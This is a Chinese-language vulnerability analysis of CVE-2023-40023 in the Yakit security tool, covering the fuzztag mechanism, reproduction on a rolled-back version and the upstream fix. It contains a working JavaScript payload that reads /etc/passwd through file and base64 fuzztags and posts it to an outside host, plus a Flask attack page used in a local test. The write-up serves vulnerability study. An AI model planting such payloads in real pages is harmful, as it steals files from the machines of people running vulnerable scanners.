










# yakit CVE-2023-40023 漏洞分析 - 先知社区

yakit CVE-2023-40023 漏洞分析

- - -

## 漏洞简介

由 Medi0cr1ty 师傅发布在公众号的，通过在页面上嵌入一个 js，这里的 payload 是读取文件，并以 base64 的方式发送出去

```bash
<script>
  const xhr = new XMLHttpRequest();
  xhr.open("POST", "http://yakit.com/filesubmit");
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.send(`file={{base64enc(file(/etc/passwd))}}`);
</script>
```

当 yakit 扫描到恶意网站之后，就会将 yakit 使用者机器上的 /etc/passwd文件base64编码后发送出去

## yakit 的 fuzztag

yakit 关于 fuzz 部分的文档 - [https://yaklang.io/products/Web%20Fuzzer/repeat](https://yaklang.io/products/Web%20Fuzzer/repeat)  
看了一下文档之后觉得这部分是 burpsuite 的 repeat 和 Intruder 模块  
另外序列场景感觉就是对存在时序的操作进行编排，比如说先登录再获取一个数据....

在介绍 CVE-2023-40023 原理之前需要先了解 yakit 里面的模糊测试标签 fuzztag  
fuzztag 是一种小型语法结构，它大概长这个样子：{{tagname(tagvalue)}}，例如{{randint(1,100)}}生成 1-100 随机整数

可用标签列表文档在 - [https://yaklang.io/docs/newforyak/fuzztag/](https://yaklang.io/docs/newforyak/fuzztag/)  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706695486245-949072a9-9351-4154-a2a3-adcbd04b937b.png#averageHue=%23e1c088&clientId=u8bb67454-1d83-4&from=paste&height=452&id=ud73214e9&originHeight=678&originWidth=1020&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=65372&status=done&style=none&taskId=u5750dd7e-e977-4d7d-aca5-1fbda71b7b3&title=&width=680)

在文章开始的 payload 里面我们就是用到了 base64enc 和 file 标签

-   base64enc 进行 base64 编码，{{base64enc(abc)}} => YWJj
-   file 读取文件内容，可以支持多个文件，用竖线分割，{{file(/tmp/1.txt)}} 或 {{file(/tmp/1.txt|/tmp/test.txt)}}

## 漏洞复现

### yakit 漏洞环境搭建

yakit 客户端目录在

> C:\\Users\\用户\\AppData\\Local\\Programs\\yakit

引擎目录在

> C:\\Users\\用户\\yakit-projects

在 yak-engine 目录下可以看到引擎 exe  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708337217088-42d83b98-68ed-4b8c-870a-71607b1b4a76.png#averageHue=%23fbf9f9&clientId=uaea00f63-5946-4&from=paste&height=277&id=ub56a008a&originHeight=415&originWidth=887&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=29954&status=done&style=none&taskId=uee2ab08a-8e43-4938-aa5e-9a4319533a1&title=&width=591.3333333333334)  
我现在的是 v1.3.0-sp6  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708337244741-c8aee22a-f8f5-48ee-8a06-7b140f14034d.png#averageHue=%23fcf7f5&clientId=uaea00f63-5946-4&from=paste&height=543&id=u7cf2db17&originHeight=814&originWidth=794&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=114687&status=done&style=none&taskId=ue40a8187-e925-4716-b55e-41f5a0624ea&title=&width=529.3333333333334)  
根据漏洞报告 回退到存在漏洞的版本 v1.2.4  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708350622340-933edf54-4726-47ea-ac2f-06dd0ad36d17.png#averageHue=%23fdf9f9&clientId=u3639901f-4e03-4&from=paste&height=485&id=u3ee8e296&originHeight=727&originWidth=1385&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=105329&status=done&style=none&taskId=u3a02c8a1-df31-4dac-8adf-0d270f8896e&title=&width=923.3333333333334)  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708350709682-5348a559-3c3d-4331-9b2c-19acaf61bcbb.png#averageHue=%23fefefe&clientId=u3639901f-4e03-4&from=paste&height=389&id=u30275dd6&originHeight=584&originWidth=1760&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=71130&status=done&style=none&taskId=ue28443d6-ab32-4dbc-9c87-11c97b85db9&title=&width=1173.3333333333333)  
下载之后替换本地的 exe  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708350942528-4d6a6db5-7de3-4710-8707-f45b23c30ee3.png#averageHue=%23fdf8f5&clientId=u3639901f-4e03-4&from=paste&height=511&id=u372113f1&originHeight=767&originWidth=596&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=74576&status=done&style=none&taskId=u84e40f12-ac5e-47c5-97fc-eb238884d43&title=&width=397.3333333333333)  
可以看到 yakit 已经回退到漏洞版本了

### 攻击环境搭建

flask 构造恶意的 web 站点

```bash
from flask import Flask, request, render_template

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        data = request.form.to_dict()
        return data
    else:
        return 'Unsupported request method'

if __name__ == '__main__':
    app.run(debug=True)
```

index.html 内容为

```bash
<!DOCTYPE html>
<html>
<head>
    <title>Attack Page</title>
</head>
<body>
    <h1>Hello, this is a attack page!</h1>
</body>
<script>
  const xhr = new XMLHttpRequest();
  xhr.open("POST", "http://127.0.0.1:5000");
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  
  xhr.send(`file={{base64enc(file(C://test))}}`);
  
</script>
</html>
```

### 读取本地文件

打开 yakit 的 XSS 插件，打开其他的插件也可以，当浏览器发出 POST 请求时会将请求流量镜像给插件，插件中调用了 fuzz 库，导致渲染了请求中的 fuzztag，将本机文件信息携带出去  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708353664519-7316cca5-8ac5-44f7-855a-ac38cae2bb5e.png#averageHue=%23fcf8f6&clientId=u3639901f-4e03-4&from=paste&height=462&id=ua37700a8&originHeight=693&originWidth=1043&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=122199&status=done&style=none&taskId=u7d27c1a5-98d5-412e-ba9c-3946ed361cb&title=&width=695.3333333333334)  
访问我们的恶意网址 [http://127.0.0.1:5000](http://127.0.0.1:5000/)，可以看到已经将 test 文件的内容以 base64 编码的方式读取出来了  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708353765498-cc2b0fd8-a6c0-4f73-97c1-be48a5fb7aa7.png#averageHue=%23d9b881&clientId=u3639901f-4e03-4&from=paste&height=137&id=uce773362&originHeight=206&originWidth=775&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=16735&status=done&style=none&taskId=u3c443781-9269-4fdd-bdbb-ec6e0921a55&title=&width=516.6666666666666)  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708353629407-8f7cc8f6-2aff-4b7a-92dc-4799c7d0a78e.png#averageHue=%23e1e9c4&clientId=u3639901f-4e03-4&from=paste&height=597&id=udf216329&originHeight=895&originWidth=1901&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=170768&status=done&style=none&taskId=u0b2329d9-2311-4fce-aa24-458646f24c3&title=&width=1267.3333333333333)

## 原理和修复

如果没有启动插件的话 是无法触发这个安全问题的，因为 yakit 默认不会对经过 MITM PROXY 的流量中的 fuzztag 进行解析，但是经过插件的时候会进行解析  
MITM 流量未解析 fuzztag  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708397180327-6caf8fad-2579-4f36-a750-e233dc88ea17.png#averageHue=%23e6ecca&clientId=u36d7995b-8cb8-4&from=paste&height=537&id=ud5fa8630&originHeight=806&originWidth=1362&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=117013&status=done&style=none&taskId=ua6820eb3-6a9a-4105-884b-7dd23b0c30a&title=&width=908)  
插件解析 fuzztag  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708397202458-6e83b7af-8159-4082-a396-dba6ca56760d.png#averageHue=%23e7edca&clientId=u36d7995b-8cb8-4&from=paste&height=550&id=u618385b1&originHeight=825&originWidth=1363&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=138585&status=done&style=none&taskId=uae832c28-3457-49ee-9fc8-dd5d762c73d&title=&width=908.6666666666666)  
原代码\_httpPool 函数里面会将所有的 fuzztag 进行解析，以 file tag 为例，在 init 的时候会被设置为全局  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708411880386-e178458d-b234-418b-8547-3dbd607052d2.png#averageHue=%231e2024&clientId=u36d7995b-8cb8-4&from=paste&height=330&id=uda19f102&originHeight=495&originWidth=1376&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=79875&status=done&style=none&taskId=uc05559fd-f314-4822-9c73-d99e6439364&title=&width=917.3333333333334)  
在这里会对新的请求 fuzztag 进行解析  
[](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708413521689-f38e2f90-b516-44ef-8e01-7f5c4fe80335.png#averageHue=%231f2125&clientId=u4380aa82-ad0c-4&from=paste&height=327&id=u37257cc5&originHeight=490&originWidth=1019&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=81536&status=done&style=none&taskId=u3f277b32-e6a3-4347-864f-758499f6f6b&title=&width=679.3333333333334)  
所以作者修复这部分的时候，去掉了 QuickMutateWithCallbackEx2 方法，在配置里面添加了 FuzzFileOptions

```bash
func FuzzFileOptions() []FuzzConfigOpt {
    var opt []FuzzConfigOpt
    for _, t := range Filetag() {
        opt = append(opt, Fuzz_WithExtraFuzzTagHandler(t.TagName, t.Handler))
        for _, a := range t.Alias {
            opt = append(opt, Fuzz_WithExtraFuzzTagHandler(a, t.Handler))
        }
    }
    return opt
}
```

通过限制 config.ForceFuzzfile 参数来防止对 file tag 进行解析

```bash
if config.ForceFuzzfile {
    opts = append(opts, FuzzFileOptions()...)
}
```

## 参考连接

-   [https://zhuanlan.zhihu.com/p/664729922](https://zhuanlan.zhihu.com/p/664729922)
-   [https://mp.weixin.qq.com/s?\_\_biz=Mzg5ODE3NTU1OQ==&mid=2247484236&idx=1&sn=ef0c14a89721800b2311d0e487388399](https://mp.weixin.qq.com/s?__biz=Mzg5ODE3NTU1OQ==&mid=2247484236&idx=1&sn=ef0c14a89721800b2311d0e487388399)
-   [https://chat.yaklang.com/](https://chat.yaklang.com/)
-   [https://github.com/yaklang/yaklang/security/advisories/GHSA-xvhg-w6qc-m3qq](https://github.com/yaklang/yaklang/security/advisories/GHSA-xvhg-w6qc-m3qq)
